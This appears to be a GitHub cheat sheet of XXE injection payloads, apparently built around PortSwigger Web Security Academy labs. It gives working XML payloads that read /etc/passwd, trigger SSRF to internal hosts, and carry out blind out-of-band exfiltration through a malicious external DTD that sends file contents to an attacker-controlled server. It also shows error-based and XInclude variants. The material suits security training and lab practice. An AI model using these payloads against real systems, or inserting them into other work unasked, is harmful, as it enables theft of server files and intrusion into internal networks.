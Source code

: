 # XXE Injection

## Summary

* [Recon for XXE](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

## Recon

### How to find and test for XXE vulnerabilities

* https://www.bugcrowd.com/blog/how-to-find-xxe-bugs/ 


* Manually testing for XXE vulnerabilities generally involves:

    * Testing for file retrieval by defining an external entity based on a well-known operating system file and using that entity in data that is returned in the application's response.


    * Testing for blind XXE vulnerabilities by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system. Burp Collaborator client is perfect for this purpose.


    * Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an XInclude attack to try to retrieve a well-known operating system file.


    * If the application is allowing to upload files with a svg, xml, xlsx extension or any other file formats that either use or contain XML subcomponents, try injecting an appropriate XXE payload. 


    * Modify the content type of the requests to XML type and see if the application still processes the modified data correctly.  If it does try injecting a XXE payload.


* https://portswigger.net/web-security/xxe#how-to-find-and-test-for-xxe-vulnerabilities

---

## Cheat Sheet


**If the application <u>is returning</u> the values of the defined external entities in its response, we can try the following techniques:**


### File Retrieval

* Inject the following payload in the body of the request on the target application:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

* Then use the defined xxe entity in an xml value in the request:

```xml
&xxe;
```

* We may be able to see the contents of the /etc/passwd file in the response.


### In-band SSRF

* Inject the following payload in the body of the request on the target application:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

* Then use the defined xxe entity in an xml value in the request:

```xml
&xxe;
```

* We may be able to see the HTTP response returned from the internal website.


<br><br>

### Example:  XXE Injection Attack

* The XML value in \<productId\> is being reflected in the response when an error is triggered so this was a good target for in-band XXE injection.

* The below is an example payload for XXE injection:



![XXE Injection](https://github.com/ChrisM-X/Payloads_Cheat-Sheets/blob/main/Web%20Security%20Payloads/Portswigger%20-%20Web%20Security%20Academy/XXE%20Injection/Images/XXE-1.png)



<br><br><br>

**If the application <u>is not returning</u> the values of the defined external entities in its response, we need to use Blind Payload Techniques:**



### Blind XXE to a server you control

* Inject the following payload in the body of the request on the target application:


```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://server-you-control.com"> ]>
```

* Then use the defined xxe entity in an xml value in the request:

```xml
&xxe;
```

* Check your server logs for any network traffic.



### Blind XXE to a server you control, when regular external entities are blocked (use parameter entities):

* Inject the following payload in the body of the request on the target application:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://server-you-control.com"> %xxe; ]>
```

* Here the xxe parameter entity needs to be referenced “within” the DOCTYPE.

* Check your server logs for any network traffic.


<br><br>
### Example:  XXE Injection Parameter Entities

![XXE Injection2](https://github.com/ChrisM-X/Payloads_Cheat-Sheets/blob/main/Web%20Security%20Payloads/Portswigger%20-%20Web%20Security%20Academy/XXE%20Injection/Images/XXE-2.png)


<br><br>

### Blind XXE to exfiltrate data – malicious external DTD

* Host the following code in a .dtd file on your server:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://server-you-control.com/?x=%file;'>">
%eval;
%exfiltrate;
```

* Now inject the following payload in the body of the request on the target application:  

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://server-you-control.com/malicious.dtd"> %xxe;]>
```


### Blind XXE to exfiltrate data – external DTD via error messages

* Host the following code in a .dtd file on your server, the “nonexistent” file will cause an error message, and the response’s stack trace will contain the file’s contents:


```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

* Inject the following payload in the body of the request on the target application:  

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```



### Blind XXE – repurpose a local DTD

* https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-by-repurposing-a-local-dtd



### Hidden Attack Surface – XInclude Attacks

* Inject the following payload in the body of the request on the target application: 

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```


### Hidden Attack Surface – File Upload

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-in-exotic-files


### Change Content Type of Request

* Change the content type and body of the request to XML type and analyze if the application still processes the request correctly.  If it does, then we can try XXE payloads.

    * Example:  foo=bar

```xml
<?xml version="1.0" encoding="UTF-8"?>
<foo>bar</foo>
```

